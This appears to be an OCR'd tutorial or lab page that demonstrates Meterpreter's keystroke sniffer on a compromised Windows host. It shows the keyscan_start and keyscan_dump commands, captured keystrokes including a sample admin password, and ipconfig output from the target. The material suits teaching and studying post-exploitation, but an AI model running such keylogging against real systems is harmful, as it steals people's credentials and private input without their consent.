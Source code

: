 ```
meterpreter > help
Stdapi: User interface Commands
===============================

    Command        Description
    -------        -----------
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes

```

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```

```
Username:Admin
Password:hacked321
```

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<^H>keyscan<CR>
<Caps Lock>U<Caps Lock>sername<Shift>:<Caps Lock>A<Caps Lock>dmin<CR>
<Caps Lock>P<Caps Lock>assword<Shift>:hacked321
```

```
This is some sample data
```

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<CR>
<Caps Lock>T<Caps Lock>his is some sm<^H>ample data<^C>

```

PowerShell:

```
PS C:\Users\Administrator> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::e835:6841:6cec:c9c4%12
   IPv4 Address. . . . . . . . . . . : 10.0.22.53
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.0.16.1

Tunnel adapter isatap.ap-southeast-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
```
